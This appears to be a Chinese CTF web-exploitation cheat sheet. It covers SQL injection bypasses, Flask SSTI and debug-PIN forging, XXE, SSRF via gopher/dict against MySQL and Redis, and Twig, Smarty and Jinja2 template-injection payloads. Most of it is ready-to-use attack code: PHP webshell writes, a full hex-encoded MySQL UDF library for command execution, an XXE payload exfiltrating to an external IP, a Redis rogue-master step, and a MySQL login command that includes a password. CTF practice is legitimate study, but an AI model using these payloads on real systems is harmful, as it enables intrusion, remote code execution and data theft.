if(length((select(flag)from(flag)))=42,1,0)

id=if((ascii(substr((select(flag)from(flag)),$1$,1)))=$ace,1,0)

空格可以%a0 %0b %20 %09 代替%0d

#### 特殊方法

`information_schema.tables用mysql.innodb_table_stats代替
table_schema用database_name代替`

```sql
查表名使用
select group_concat(table_name) from mysql.innodb_table_stats where database_name=database()
跳过爆字段名直接爆值

```

```sql
查表名
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

```

无列名注入（知道表名)

```sql
?username=joe'union/**/select/**/a/**/from/**/(select/**/1,2/**/as/**/a/**/union/**/select/**/*/**/from/**/flag)/**/as/**/q%23

```

因为没有mysql.innodb_column_stats这个方法，查不了列名
大概原理就是没有列名，那就给它取名，然后按别名正常继续注入

```sql
//-1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

```


#### 测试列数


`1'/**/group/**/by/**/22,'3`

#### 堆叠注入

';handler `FlagHere` open;handler `FlagHere` read first#读取

1';PREPARE st from concat('s','elect', ' * from `FlagHere` ');EXECUTE st;#

#### 常见绕过

1.结果不允许有flag字符

  if($row->username!==’flag’)

A. -1' union select to_base64(username),hex(password) from ctfshow_user2 --+

3. 不允许有flag

 if(!preg_match('/flag/i', json_encode($ret))){

A. -1' union select 1,2,password from ctfshow_user3 where username='flag' --+

3.不允许有数字

 if(!preg_match('/flag|[0-9]/i', json_encode($ret))){

A. -1'union select replace(username,'g','j'),replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','F'),'7','G'),'8','H'),'9','I'),'0','J'),'g','j') from ctfshow_user4 where username='flag'--+

---

## 🍶 十二、Flask 题目

> [!summary] 速览
> - 漏洞函数：`render_template_string` → SSTI；`__import__('os').popen('cat /f*').read()`
> - Flask debug PIN 计算要素：username、modname、appname、moddir、uuidnode（MAC）、machine-id + boot_id + cgroup
> - 拿 MAC：`local_file:///sys/class/net/eth0/address`；`/proc/self/cmdline`、`/proc/self/cgroup` 判断是否容器
> - 例题 flask disk：debug 模式下覆盖 `app.py`，改完立即重载 → 直接 RCE

漏洞函数

render_template_string(index)--sstl注入

__import__('os').popen('cat /f*').read()

local_file:///sys/class/net/eth0/address

### Flask 的 ping 值计算

1.username 启动flask的用户名 (/etc/passwd 读取）

2.modname 默认值flask.app

3.appname 默认flask

4.moddir 可通过报错信息得到 flask库下app.py的绝对路径 /etc/pass

5.uuidnode 读取/sys/class/net/eth0/address MAC地址十六进制转化为十进制 根据网卡名称自行更改

6.machine-id（更正）/proc/sys/kernel/random/boot_id

/proc/self/cgroup  看是不是docker

/proc/sys/kernel/rand]

/etc/machine-id+/proc/self/cgroup合起来才是后半段

/proc/sys/kernel/random/boot_id+/proc/self/cgroup

 `/proc/self/cmdlind`

```python
#02:42:ac:02:45:95
import random
 
random.seed(0x0242ac024595)
print (str(random.random()*233))
 
#231.281943387   #secret_key
 
 
 
#python main.py decode -s 231.28194338656192 -c "eyJwYXNzcG9ydCI6IllhbWlZYW1pIn0.ZETklg.pEPhZ5o8PxJOT7pLSFqlhNV28EQ"   #解密
#python main.py encode -s 231.28194338656192 -t "{'passport': 'Welcome To HDCTF2023'}"    #加密
#eyJwYXNzcG9ydCI6IldlbGNvbWUgVG8gSERDVEYyMDIzIn0.ZETyAw.dHJKdmKcdjzcIOEL-bbhrFuedE4     #加密结果

```

读取文件用python2

 import random

 random.seed(0x0242ae0295f6)

 print(str(random.random()*233))

local_file:///

### Flask 例题

flask disk

· **考点**：Phar反序列化、gzip压缩、无回显RCE

· **FLAG**：动态FLAG

· **解题步骤**

访问admin manage发现要输入pin码，说明flask开启了debug模式。

flask开启了debug模式下，app.py源文件被修改后会立刻加载。

所以只需要上传一个能rce的app.py文件把原来的覆盖，就可以了。注意语法不能出错，否则会崩溃。

from flask import Flask,request

import os

app = Flask(__name__)

@app.route('/')

def index():

try:

cmd = request.args.get('cmd')

data = os.popen(cmd).read()

return data

except:

pass

return "1"

if __name__=='__main__':

app.run(host='0.0.0.0',port=5000,debug=True)

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps6.jpg`

---

## 🌿 十三、Git 题目

> [!summary] 速览
> - 本章目前只有一张截图（见下），考点为 `.git` 泄漏与源码恢复


---

## 🍵 十四、Java 题目

> [!summary] 速览
> - `WEB-INF` 结构：`web.xml`、`classes/`、`lib/`、`src/`、`database.properties`
> - 例题：读 `/WEB-INF/classes/com/wm/ctf/FlagController.class` 反编译看逻辑
> - Struts 工具；XXE 无 DNS 外带（走 fontconfig DTD 报错回显）
> - 信息可能藏在环境变量：`file:///proc/1/environ`

存有web信息的XML文件

WEB-INF主要包含一下文件或目录：

/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。

/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中

/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件

/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。

/WEB-INF/database.properties：数据库配置文件

例题

<servlet>

    <servlet-name>FlagController</servlet-name>

    <servlet-class>com.wm.ctf.FlagController</servlet-class>

  </servlet>

filename=/WEB-INF/classes/com/wm/ctf/FlagController.class

Struts工具

 xxe无dns外带

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'b)>
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>1111111111111</message>

```

可能在env里。

file:///proc/1/environ

/readFile?filename=../../../../../../../../../../../../proc/1/environ

---

## 🎫 十五、JWT 题目

> [!summary] 速览
> - `local_file:///sys/class/net/eth0/address`（**后面一定要加点**）

（后面一定要加点）

local_file:///sys/class/net/eth0/address

---

## 📜 十六、XXE 题目

> [!summary] 速览
> - **有回显**：`<!ENTITY admin SYSTEM "file:///etc/passwd">` 后 `&admin;` 直接读文件
> - **无回显**：参数实体 + 外部 DTD 外带，`php://filter/read=convert.base64-encode/resource=/flag` 再 `%remote; %send;`
> - 只有一个普通实体时：`<!ENTITY xxe SYSTEM "file:///flag">` 塞进 `<name>&xxe;</name>`



例题1：有回显的文件读取


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [
 <!ENTITY admin SYSTEM "file:///etc/passwd">
 ]>
<user><username>&admin;</username><password>admin</password></user>

```

例题二:无回显

<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % remote SYSTEM "http://47.99.125.16/xxe.xml">
%remote;
%send;
]>

```xml
<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE xxe[ 
	<!ELEMENT test ANY >	
	<!ENTITY xxe SYSTEM "file:///flag" >]>	
<test>
	<name>&xxe;</name>					
</test>		

```

---

## 🛰️ 十七、SSRF 题目

> [!summary] 速览
> - **file**：有回显直接读任意文件；**dict**：探端口、看软件版本、操作内网 Redis
> - **gopher**：万能协议，可发 GET/POST，用于反弹 shell、打 Redis / MySQL
> - 打 MySQL：`python2 gopherus.py --exploit mysql` → `select "<?php @eval($_POST['cmd']);?>" into outfile '/var/www/html/aa.php';`
> - 写马两种：UNION 联合查询 `into outfile/dumpfile`；无联合时 `into outfile ... FIELDS TERMINATED BY '<?php phpinfo();?>'`
> - MySQL 提权：看 `secure_file_priv`（空 = 不限目录，NULL = 禁导入导出）、`plugin_dir`，用 UDF 写 so 执行系统命令
> - 打 Redis：主从复制（dict 协议分步解决）；`http/s` 协议可探内网主机存活



### file 协议

 在有回显的情况下，利用 file 协议可以读取任意文件的内容

### dict 协议

泄露安装软件版本信息，查看端口，操作内网redis服务等

### gopher 协议

gopher支持发出GET、POST请求。可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell

[例题](https://blog.csdn.net/weixin_50464560/article/details/122473887?ops_request_misc=&request_id=&biz_id=102&utm_term=ctshowssrf&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-0-122473887.142^v99^pc_search_result_base7&spm=1018.2226.3001.4187)

#### 打 MySQL（无密码）

```bash
python2 gopherus.py --exploit mysql
root
select "<?php @eval($_POST['cmd']);?>" into outfile '/var/www/html/aa.php';

```

### MySQL 读取任意文件漏洞

```text
1.在腾讯服务器上开rough服务监听，受害机连接，输入指令获得。

远程连接

 mysql -h 1.14.108.193 -P 3306 -u root -pygyjl694NYG. blog

```

#### 写马

[通杀大全](https://www.sqlsec.com/2020/11/mysql.html#%E5%86%99%E5%85%A5%E5%8A%A8%E6%80%81%E9%93%BE%E6%8E%A5%E5%BA%93)

##### 基于 UNION 联合查询

```sql
?id=1 UNION ALL SELECT 1,'<?php phpinfo();?>',3 into outfile 'C:\info.php'%23
?id=1 UNION ALL SELECT 1,'<?php phpinfo();?>',3 into dumpfile 'C:\info.php'%23

```

##### 非联合查询

当我们无法使用联合查询时，我们可以使用`fields terminated by`与`lines terminated by`来写shell

```php
?id=1 into outfile 'C:\info.php' FIELDS TERMINATED BY '<?php phpinfo();?>'%23

```

#### MySQL 提权到 root

[总结](https://blog.csdn.net/qq_45927266/article/details/119297840)

`show global variables like '%secure%';`

选项 secure_file_priv 用于限制导入和导出的数据目录

如果为空，不做目录限制，即任何目录均可以

如果设置为 NULL ，MySQL 服务器禁止导入与导出功能

直接写webshell会发现没有web根路径的权限


换一个思路可以通过udf提权执行系统命令

`plugin_dir` 选项用于指定插件目录

`show global variables like '%plugin%';`


so文件写法：

```sql
SET @file_content = LOAD_FILE('C:/Users/admin/Desktop/lib_mysqludf_sys_64.so');
INSERT INTO people (cmd) VALUES (HEX(@file_content));

```

```sql
SELECT hex(load_file('/lib_mysqludf_sys_64.so'));

```

写入so文件

`SELECT 0x7f454c4602010100000000000000000003003e0001000000d00c0000000000004000000000000000e8180000000000000000000040003800050040001a00190001000000050000000000000000000000000000000000000000000000000000001415000000000000141500000000000000002000000000000100000006000000181500000000000018152000000000001815200000000000700200000000000080020000000000000000200000000000020000000600000040150000000000004015200000000000401520000000000090010000000000009001000000000000080000000000000050e57464040000006412000000000000641200000000000064120000000000009c000000000000009c00000000000000040000000000000051e5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000250000002b0000001500000005000000280000001e000000000000000000000006000000000000000c00000000000000070000002a00000009000000210000000000000000000000270000000b0000002200000018000000240000000e00000000000000040000001d0000001600000000000000130000000000000000000000120000002300000010000000250000001a0000000f000000000000000000000000000000000000001b00000000000000030000000000000000000000000000000000000000000000000000002900000014000000000000001900000020000000000000000a00000011000000000000000000000000000000000000000d0000002600000017000000000000000800000000000000000000000000000000000000000000001f0000001c0000000000000000000000000000000000000000000000020000000000000011000000140000000200000007000000800803499119c4c93da4400398046883140000001600000017000000190000001b0000001d0000002000000022000000000000002300000000000000240000002500000027000000290000002a00000000000000ce2cc0ba673c7690ebd3ef0e78722788b98df10ed871581cc1e2f7dea868be12bbe3927c7e8b92cd1e7066a9c3f9bfba745bb073371974ec4345d5ecc5a62c1cc3138aff36ac68ae3b9fd4a0ac73d1c525681b320b5911feab5fbe120000000000000000000000000000000000000000000000000000000003000900a00b0000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000e0000000120000000000000000000000de01000000000000790100001200000000000000000000007700000000000000ba0000001200000000000000000000003504000000000000f5000000120000000000000000000000c2010000000000009e010000120000000000000000000000d900000000000000fb000000120000000000000000000000050000000000000016000000220000000000000000000000fe00000000000000cf000000120000000000000000000000ad00000000000000880100001200000000000000000000008000000000000000ab010000120000000000000000000000250100000000000010010000120000000000000000000000dc00000000000000c7000000120000000000000000000000c200000000000000b5000000120000000000000000000000cc02000000000000ed000000120000000000000000000000e802000000000000e70000001200000000000000000000009b00000000000000c200000012000000000000000000000028000000000000008001000012000b007a100000000000006e000000000000007500000012000b00a70d00000000000001000000000000001000000012000c00781100000000000000000000000000003f01000012000b001a100000000000002d000000000000001f01000012000900a00b0000000000000000000000000000c30100001000f1ff881720000000000000000000000000009600000012000b00ab0d00000000000001000000000000007001000012000b0066100000000000001400000000000000cf0100001000f1ff981720000000000000000000000000005600000012000b00a50d00000000000001000000000000000201000012000b002e0f0000000000002900000000000000a301000012000b00f71000000000000041000000000000003900000012000b00a40d00000000000001000000000000003201000012000b00ea0f0000000000003000000000000000bc0100001000f1ff881720000000000000000000000000006500000012000b00a60d00000000000001000000000000002501000012000b00800f0000000000006a000000000000008500000012000b00a80d00000000000003000000000000001701000012000b00570f00000000000029000000000000005501000012000b0047100000000000001f00000000000000a900000012000b00ac0d0000000000009a000000000000008f01000012000b00e8100000000000000f00000000000000d700000012000b00460e000000000000e800000000000000005f5f676d6f6e5f73746172745f5f005f66696e69005f5f6378615f66696e616c697a65005f4a765f5265676973746572436c6173736573006c69625f6d7973716c7564665f7379735f696e666f5f6465696e6974007379735f6765745f6465696e6974007379735f657865635f6465696e6974007379735f6576616c5f6465696e6974007379735f62696e6576616c5f696e6974007379735f62696e6576616c5f6465696e6974007379735f62696e6576616c00666f726b00737973636f6e66006d6d6170007374726e6370790077616974706964007379735f6576616c006d616c6c6f6300706f70656e007265616c6c6f630066676574730070636c6f7365007379735f6576616c5f696e697400737472637079007379735f657865635f696e6974007379735f7365745f696e6974007379735f6765745f696e6974006c69625f6d7973716c7564665f7379735f696e666f006c69625f6d7973716c7564665f7379735f696e666f5f696e6974007379735f657865630073797374656d007379735f73657400736574656e76007379735f7365745f6465696e69740066726565007379735f67657400676574656e76006c6962632e736f2e36005f6564617461005f5f6273735f7374617274005f656e6400474c4942435f322e322e35000000000000000000020002000200020002000200020002000200020002000200020002000200020001000100010001000100010001000100010001000100010001000100010001000100010001000100010001000100000001000100b20100001000000000000000751a690900000200d401000000000000801720000000000008000000000000008017200000000000d01620000000000006000000020000000000000000000000d81620000000000006000000030000000000000000000000e016200000000000060000000a00000000000000000000000017200000000000070000000400000000000000000000000817200000000000070000000500000000000000000000001017200000000000070000000600000000000000000000001817200000000000070000000700000000000000000000002017200000000000070000000800000000000000000000002817200000000000070000000900000000000000000000003017200000000000070000000a00000000000000000000003817200000000000070000000b00000000000000000000004017200000000000070000000c00000000000000000000004817200000000000070000000d00000000000000000000005017200000000000070000000e00000000000000000000005817200000000000070000000f00000000000000000000006017200000000000070000001000000000000000000000006817200000000000070000001100000000000000000000007017200000000000070000001200000000000000000000007817200000000000070000001300000000000000000000004883ec08e827010000e8c2010000e88d0500004883c408c3ff35320b2000ff25340b20000f1f4000ff25320b20006800000000e9e0ffffffff252a0b20006801000000e9d0ffffffff25220b20006802000000e9c0ffffffff251a0b20006803000000e9b0ffffffff25120b20006804000000e9a0ffffffff250a0b20006805000000e990ffffffff25020b20006806000000e980ffffffff25fa0a20006807000000e970ffffffff25f20a20006808000000e960ffffffff25ea0a20006809000000e950ffffffff25e20a2000680a000000e940ffffffff25da0a2000680b000000e930ffffffff25d20a2000680c000000e920ffffffff25ca0a2000680d000000e910ffffffff25c20a2000680e000000e900ffffffff25ba0a2000680f000000e9f0feffff00000000000000004883ec08488b05f50920004885c07402ffd04883c408c390909090909090909055803d900a2000004889e5415453756248833dd809200000740c488b3d6f0a2000e812ffffff488d05130820004c8d2504082000488b15650a20004c29e048c1f803488d58ff4839da73200f1f440000488d4201488905450a200041ff14c4488b153a0a20004839da72e5c605260a2000015b415cc9c3660f1f8400000000005548833dbf072000004889e57422488b05530920004885c07416488d3da70720004989c3c941ffe30f1f840000000000c9c39090c3c3c3c331c0c3c341544883c9ff4989f455534883ec10488b4610488b3831c0f2ae48f7d1488d69ffe8b6feffff83f80089c77c61754fbf1e000000e803feffff488d70ff4531c94531c031ffb921000000ba07000000488d042e48f7d64821c6e8aefeffff4883f8ff4889c37427498b4424104889ea4889df488b30e852feffffffd3eb0cba0100000031f6e802feffff31c0eb05b8010000005a595b5d415cc34157bf00040000415641554531ed415455534889f34883ec1848894c24104c89442408e85afdffffbf010000004989c6e84dfdffffc600004889c5488b4310488d356a030000488b38e814feffff4989c7eb374c89f731c04883c9fff2ae4889ef48f7d1488d59ff4d8d641d004c89e6e8ddfdffff4a8d3c284889da4c89f64d89e54889c5e8a8fdffff4c89fabe080000004c89f7e818fdffff4885c075b44c89ffe82bfdffff807d0000750a488b442408c60001eb1f42c6442dff0031c04883c9ff4889eff2ae488b44241048f7d148ffc94889084883c4184889e85b5d415c415d415e415fc34883ec08833e014889d7750b488b460831d2833800740e488d353a020000e817fdffffb20188d05ec34883ec08833e014889d7750b488b460831d2833800740e488d3511020000e8eefcffffb20188d05fc3554889fd534889d34883ec08833e027409488d3519020000eb3f488b46088338007409488d3526020000eb2dc7400400000000488b4618488b384883c70248037808e801fcffff31d24885c0488945107511488d351f0200004889dfe887fcffffb20141585b88d05dc34883ec08833e014889f94889d77510488b46088338007507c6010131c0eb0e488d3576010000e853fcffffb0014159c34154488d35ef0100004989cc4889d7534889d34883ec08e832fcffff49c704241e0000004889d8415a5b415cc34883ec0831c0833e004889d7740e488d35d5010000e807fcffffb001415bc34883ec08488b4610488b38e862fbffff5a4898c34883ec28488b46184c8b4f104989f2488b08488b46104c89cf488b004d8d4409014889c6f3a44c89c7498b4218488b0041c6040100498b4210498b5218488b4008488b4a08ba010000004889c6f3a44c89c64c89cf498b4218488b400841c6040000e867fbffff4883c4284898c3488b7f104885ff7405e912fbffffc3554889cd534c89c34883ec08488b4610488b38e849fbffff4885c04889c27505c60301eb1531c04883c9ff4889d7f2ae48f7d148ffc948894d00595b4889d05dc39090909090909090554889e5534883ec08488b05c80320004883f8ff7419488d1dbb0320000f1f004883eb08ffd0488b034883f8ff75f14883c4085bc9c390904883ec08e86ffbffff4883c408c345787065637465642065786163746c79206f6e6520737472696e67207479706520706172616d657465720045787065637465642065786163746c792074776f20617267756d656e747300457870656374656420737472696e67207479706520666f72206e616d6520706172616d6574657200436f756c64206e6f7420616c6c6f63617465206d656d6f7279006c69625f6d7973716c7564665f7379732076657273696f6e20302e302e34004e6f20617267756d656e747320616c6c6f77656420287564663a206c69625f6d7973716c7564665f7379735f696e666f290000011b033b980000001200000040fbffffb400000041fbffffcc00000042fbffffe400000043fbfffffc00000044fbffff1401000047fbffff2c01000048fbffff44010000e2fbffff6c010000cafcffffa4010000f3fcffffbc0100001cfdffffd401000086fdfffff4010000b6fdffff0c020000e3fdffff2c02000002feffff4402000016feffff5c02000084feffff7402000093feffff8c0200001400000000000000017a5200017810011b0c070890010000140000001c00000084faffff01000000000000000000000014000000340000006dfaffff010000000000000000000000140000004c00000056faffff01000000000000000000000014000000640000003ffaffff010000000000000000000000140000007c00000028faffff030000000000000000000000140000009400000013faffff01000000000000000000000024000000ac000000fcf9ffff9a00000000420e108c02480e18410e20440e3083048603000000000034000000d40000006efaffffe800000000420e10470e18420e208d048e038f02450e28410e30410e38830786068c05470e50000000000000140000000c0100001efbffff2900000000440e100000000014000000240100002ffbffff2900000000440e10000000001c0000003c01000040fbffff6a00000000410e108602440e188303470e200000140000005c0100008afbffff3000000000440e10000000001c00000074010000a2fbffff2d00000000420e108c024e0e188303470e2000001400000094010000affbffff1f00000000440e100000000014000000ac010000b6fbffff1400000000440e100000000014000000c4010000b2fbffff6e00000000440e300000000014000000dc01000008fcffff0f00000000000000000000001c000000f4010000fffbffff4100000000410e108602440e188303470e2000000000000000000000ffffffffffffffff0000000000000000ffffffffffffffff000000000000000000000000000000000100000000000000b2010000000000000c00000000000000a00b0000000000000d00000000000000781100000000000004000000000000005801000000000000f5feff6f00000000a00200000000000005000000000000006807000000000000060000000000000060030000000000000a00000000000000e0010000000000000b0000000000000018000000000000000300000000000000e81620000000000002000000000000008001000000000000140000000000000007000000000000001700000000000000200a0000000000000700000000000000c0090000000000000800000000000000600000000000000009000000000000001800000000000000feffff6f00000000a009000000000000ffffff6f000000000100000000000000f0ffff6f000000004809000000000000f9ffff6f0000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000401520000000000000000000000000000000000000000000ce0b000000000000de0b000000000000ee0b000000000000fe0b0000000000000e0c0000000000001e0c0000000000002e0c0000000000003e0c0000000000004e0c0000000000005e0c0000000000006e0c0000000000007e0c0000000000008e0c0000000000009e0c000000000000ae0c000000000000be0c0000000000008017200000000000004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200002e7368737472746162002e676e752e68617368002e64796e73796d002e64796e737472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e74657874002e66696e69002e726f64617461002e65685f6672616d655f686472002e65685f6672616d65002e63746f7273002e64746f7273002e6a6372002e64796e616d6963002e676f74002e676f742e706c74002e64617461002e627373002e636f6d6d656e7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000f0000000500000002000000000000005801000000000000580100000000000048010000000000000300000000000000080000000000000004000000000000000b000000f6ffff6f0200000000000000a002000000000000a002000000000000c000000000000000030000000000000008000000000000000000000000000000150000000b00000002000000000000006003000000000000600300000000000008040000000000000400000002000000080000000000000018000000000000001d00000003000000020000000000000068070000000000006807000000000000e00100000000000000000000000000000100000000000000000000000000000025000000ffffff6f020000000000000048090000000000004809000000000000560000000000000003000000000000000200000000000000020000000000000032000000feffff6f0200000000000000a009000000000000a009000000000000200000000000000004000000010000000800000000000000000000000000000041000000040000000200000000000000c009000000000000c00900000000000060000000000000000300000000000000080000000000000018000000000000004b000000040000000200000000000000200a000000000000200a0000000000008001000000000000030000000a0000000800000000000000180000000000000055000000010000000600000000000000a00b000000000000a00b000000000000180000000000000000000000000000000400000000000000000000000000000050000000010000000600000000000000b80b000000000000b80b00000000000010010000000000000000000000000000040000000000000010000000000000005b000000010000000600000000000000d00c000000000000d00c000000000000a80400000000000000000000000000001000000000000000000000000000000061000000010000000600000000000000781100000000000078110000000000000e000000000000000000000000000000040000000000000000000000000000006700000001000000320000000000000086110000000000008611000000000000dd000000000000000000000000000000010000000000000001000000000000006f000000010000000200000000000000641200000000000064120000000000009c000000000000000000000000000000040000000000000000000000000000007d000000010000000200000000000000001300000000000000130000000000001402000000000000000000000000000008000000000000000000000000000000870000000100000003000000000000001815200000000000181500000000000010000000000000000000000000000000080000000000000000000000000000008e000000010000000300000000000000281520000000000028150000000000001000000000000000000000000000000008000000000000000000000000000000950000000100000003000000000000003815200000000000381500000000000008000000000000000000000000000000080000000000000000000000000000009a000000060000000300000000000000401520000000000040150000000000009001000000000000040000000000000008000000000000001000000000000000a3000000010000000300000000000000d016200000000000d0160000000000001800000000000000000000000000000008000000000000000800000000000000a8000000010000000300000000000000e816200000000000e8160000000000009800000000000000000000000000000008000000000000000800000000000000b1000000010000000300000000000000801720000000000080170000000000000800000000000000000000000000000008000000000000000000000000000000b7000000080000000300000000000000881720000000000088170000000000001000000000000000000000000000000008000000000000000000000000000000bc000000010000000000000000000000000000000000000088170000000000009b000000000000000000000000000000010000000000000000000000000000000100000003000000000000000000000000000000000000002318000000000000c500000000000000000000000000000001000000000000000000000000000000 INTO DUMPFILE '/usr/local/mysql/lib/plugin/udf.so';`

`CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so';`

`select sys_eval('env');`

__url要进行二次编码__

#### 打 Redis

`curl_setopt($ch, CURLOPT_HEADER, 0); curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);`特征

```bash
python2 gopherus.py --exploit redis
phpshell
<?php eval($_POST['cmd']);?>

```

`gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252428%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B1%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A`

1是密码

#### 主从复制 Redis

##### dict 协议分步解决

```text
  'dict://127.0.0.1:6379/info');
  'dict://127.0.0.1:6379/config:set:dir:/tmp'); //设置目录
  'dict://127.0.0.1:6379/config:get:dir'); //获取
  'dict://127.0.0.1:6379/config:set:dbfilename:exp.so');
  'dict://127.0.0.1:6379/slaveof:49.232.224.59:6379');
  'dict://127.0.0.1:6379/module:load:./exp.so'); //加载exp.so
  'dict://127.0.0.1:6379/system.exec:"env"'); //命令执行go
   

```

gopher一次解决：打开/tmp/redis，先运行得到payload，再python2运行server接受。

### http/s 协议：探测内网主机存活

```text
[file:///var/www/html/flag.php](file://var\www\html\flag.php)  ---看网页源代码

url=http://127.0.0.1/flag.php 

http://safe.taobao.com/ http://114.taobao.com/ http://wifi.aliyun.com/ http://imis.qq.com/ http://localhost.sec.qq.com/ http://ecd.tencent.com/ 

出来时127.0.0.1

url=http://2130706433/flag.php

url=http://sudo.cc/flag.php  dns解析

url=http://0177.0.0.1/flag.php

十六进制

url=http://0x7F.0.0.1/flag.php

八进制

url=http://0177.0.0.1/flag.php

10 进制整数格式

url=http://2130706433/flag.php

16 进制整数格式，还是上面那个网站转换记得前缀0x

url=http://0x7F000001/flag.php

还有一种特殊的省略模式

127.0.0.1写成127.1

用CIDR绕过localhost

url=http://127.127.127.127/flag.php

还有很多方式不想多写了

url=http://0/flag.php

url=http://0.0.0.0/flag.php

http://nginx：80/flag.php

http://＠nginx/flag.php

http://nginx／flag.php

长度小于5
http://127.1／flag.php
http://0/flag.php

```

在自己的vps上写一个php文件，内容为

<?php  header("Location:http://127.0.0.1/flag.php");?>

然后POST传参

例题1：

代码中正则的意思是url要以`http://ctf.`开头，且以`show`结尾

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
} 

```

那么可以构造一下绕过

```text
url=http://ctf.@127.0.0.1/flag.php?show

```

此处`ctf.`将作为账号登录127.0.0.1，并且向flag.php传一个`show参数`来绕过

---

## 🧩 十八、服务端模板注入（SSTI）

> [!summary] 速览
> - **指纹**：`{{7*'7'}}` 返回 `7777777` → Twig；返回 `49` / `14` → Jinja2
> - **Twig**：`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`
> - **Smarty**：`{$smarty.version}` 判版本；**Jinja2**：`__class__ → __mro__/__base__ → __subclasses__() → __init__.__globals__ → popen`
> - **过滤绕过**：`attr()` 代 `[]` / `.`，Cookie 传参代 `request.args`，`\x5f` / `\u005f` 代下划线，`` 代 `{{`，字符串拼接代关键字
> - **沙盒逃逸**：`help()` / `breakpoint()` 进 shell、`globals()` / `dir()` 泄露、`bytes()` 代 `char`、`_posixsubprocess.fork_exec` 直接起 shell
> - 其他：输出流重定向 `__stdout__.write(...)`、回溯 `random` 状态预测




输入{{7*‘7’}}，返回7777777表示是 Twig 模块
输入{{7*‘7’}}或{{7+7}}，返回49或14表示是 Jinja2 模块

以上具体通过输入{{7*7}}，根据返回结果判断属于那个模块，这种判断方法不知是否正确\

http://www.fhdq.net/

> [!missing] 图片缺失：原为微信临时目录图片

特殊字符

```jinja
﹛(()|attr(request.values.a)|attr(request.values.b)|attr(request.values.c)()|attr(request.values.d)(132)|attr(request.values.e)|attr(request.values.f)|attr(request.values.d)(request.values.g)(request.values.h)).read()﹜&a=__class__&b=__base__&c=__subclasses__&d=__getitem__&e=__init__&f=__globals__&g=popen&h=cat /flag

```

### Twig 模板

`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`

{{url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

### Smarty

```text
一，漏洞确认(查看smarty的版本号)：
{$smarty.version}
二，常规利用方式：（使用{php}{/php}标签来执行被包裹其中的php指令，smarty3弃用）
{php}{/php}
执行php指令，php7无法使用

<script language="php">phpinfo();</script>

三，静态方法
public function getStreamVariable($variable){ $_result = ''; $fp = fopen($variable, 'r+'); if ($fp) { while (!feof($fp) && ($current_line = fgets($fp)) !== false) { $_result .= $current_line; } fclose($fp); return $_result; } $smarty = isset($this->smarty) ? $this->smarty : $this; if ($smarty->error_unassigned) { throw new SmartyException('Undefined stream variable "' . $variable . '"'); } else { return null; } }

payload1:（if标签执行PHP命令）
{if phpinfo()}{/if}
{if system('ls')}{/if}
{if system('cat /flag')}{/if}
四，其他payload
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

```

### Jinja2

读取模块

```jinja
